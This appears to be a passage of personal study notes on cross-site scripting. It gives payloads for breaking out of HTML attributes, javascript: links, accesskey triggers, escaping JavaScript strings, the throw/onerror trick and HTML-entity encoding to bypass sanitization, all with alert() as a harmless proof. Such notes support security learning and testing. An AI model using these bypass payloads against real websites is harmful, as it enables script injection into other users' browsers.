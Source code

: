 If terminating the tag itself is hard since angle brackets are usually blocked, simply add a new attribute.
```
" onfocus=alert() autofocus x="
```
- This creates an `onfocus` event, and adds the `autofocus` attribute to trigger the `onfocus` automatically.
- To ensure there is no syntax error, it then closes off the remainder of the attribute and the tag.

If the source is an `href` attribute, we can execute JavaScript code using the [[Protocol]].
```
javascript:alert()
```

Access keys allow you to provide keyboard shortcuts that reference a specific element, done using the `accesskey` attribute. 
```
accesskey="x" onclick="alert()"
```
- When the letter defined `x` is pressed with `ALT` or `ALT SHIFT`, the event `onclick` will fire, producing the `alert()`.

###### Injecting in JavaScript

We can simply terminate the current script and add a new one.
```
</script><img src=1 onerror=alert(document.domain)>
```

To escape from a string inside the JavaScript.
```
'-alert(document.domain)-' 
';alert(document.domain)//

\'-alert(document.domain)-\' 
\';alert(document.domain)//
```
- Try adding `\` before the quotes if they are escaped by the application.
- Adding `//` comments out everything after it.

If the brackets are encoded, we can use the `throw` exception handler.
```
onerror=alert;throw 1
```
- The `throw` passes the 1 to the exception handler, which has the `alert()` function assigned it to.

###### Using HTML- [[Web Encoding]]

Using HTML encoding to bypass sanitization checks.
- The browser can decode the encoded attack while interpreting the JavaScript, so the attack succeeds.
```
&apos;-alert(document.domain)-&apos;
```

Find the list of codes [here](https://html.spec.whatwg.org/multipage/named-characters.html#named-character-references).
- Can also use the hex version encoding, or numbers.
